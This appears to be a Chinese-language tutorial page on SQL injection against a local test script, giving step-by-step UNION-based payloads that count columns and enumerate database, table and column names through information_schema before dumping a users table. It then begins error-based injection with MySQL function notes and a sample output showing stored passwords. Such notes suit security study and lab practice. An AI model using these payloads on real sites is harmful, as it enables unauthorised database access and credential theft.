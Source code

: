 
# 联合查询
**要求**: 要求页面返回查询到的数据库内容
## 步骤
* 查列数
> 127.0.0.1/sql1.php?id=1 order by 4
 
* 查哪列的数据被echo出来
> 127.0.0.1/sql1.php?id=-1 UNION SELECT 1,2,3,4 
 
*用-1是为了让union前的查询为空，此时union后的查询结果会占前面的位*

* 查数据库名  
> 127.0.0.1/sql1.php?id=1 UNION SELECT 1,2,3,schema_name from information_schema.schemata    

 *数据库名存放在information_schema数据库下schemata表schema_name字段中*
* 查表名 
> 127.0.0.1/sql1.php?id=1 union select 1,2,3,table_name from information_schema.tables where table_schema='blog' 
 
*表名存放在information_schema数据库下tables表table_name字段中*  

* 查列名
> 127.0.0.1/sql1.php?id=1 union select 1,2,3,4 column_name from information_schema.columns where table_name = 'users' and table_schema = 'blog'   
 
*字段名存放在information_schema数据库下columns表column_name字段中*  

* 查数据 
> 127.0.0.1/sql1.php?id=1 union select 1,2,3,name from users  
 
*实际数据可能多条，常用limit限制*  

# 报错型 
**要求**:要求页面需返回数据库的错误信息
让数据库报错来提取查询内容
前提：输出 mysqli_error()
基础知识:
rand()  产生0~1间的一个随机数，如果给定参数种子，如rand(1)，则生成定值。
floor(x)  返回不大于x的下一个数
count(x)   返回x的数量,如求表的记录数: select count(*) from users;
group by sex 按sex字段分组，单独使用group by 时只返回每组的一条记录
concat()    拼接字符串 
group_concat(pass)  把pass显示在一行
例如:按name分组后，把每组的pass显示在一行
```
mysql> select name,group_concat(pass) from users group by name;
+-------+-----------------------------------------------------------------------+
| name  | group_concat(pass)                                                    |
+-------+-----------------------------------------------------------------------+
| 1     | 1,1,1 or sleep(3),1                                                   |
| aaa   | 0,0,0,0,0,0,0,0,0,0,0,bbb,bbb,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0 |
| admin | admin888                                                              |
| test  | test,test                                                             |
+-------+-----------------------------------------------------------------------+
```  
 